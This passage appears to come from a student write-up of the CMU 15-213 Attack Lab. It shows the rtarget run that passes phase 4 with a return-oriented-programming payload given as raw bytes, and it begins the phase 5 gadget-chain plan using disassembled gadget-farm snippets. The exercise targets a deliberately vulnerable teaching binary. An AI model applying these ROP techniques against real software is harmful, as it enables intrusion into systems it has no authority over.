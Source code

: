     ```
    LD_PRELOAD=./printf.so ./rtarget -q -i phase_4/phase_4_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
    ```

### Phase 5
- We use the `add_xy` function in the gadget farm to calculate the address of the cookie string, and move this value to register `%rdi`, finally we invoke `touch3` function

- The ROP plan is as follows:

1. `movq %rsp, %rax` (`48 89 e0`), one of the addresses is `0x401a06`
    - We need `movq %rsp, %rdi` (`48 89 e7`) or `movq %rsp, %rsi` (`48 89 e6`)

    - The gadge farm only has `movq %rsp, %rax` (`48 89 e0`)

        ```
        0000000000401a03 <addval_190>:
        401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
        401a09:	c3                   	ret    
        ```

        ```
        0000000000401aab <setval_350>:
        401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
        401ab1:	c3                   	ret    
        ```
1. `movq %rax, %rdi` (`48 89 c7`), one of the addresses is `0x4019a2`
    - `movq %rax, %rdi` (`48 89 c7`) or `movq %rax, %rsi` (`48 89 c6`) are suitable

    - The gadge farm only has `movq %rax, %rdi` (`48 89 c7`)

        ```
        00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	ret    
        ```

        ```
        00000000004019c3 <setval_426>:
        4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
        4019c9:	c3                   	ret    
        ```

1. `popq %rax`, one of addresses: `0x4019ab`
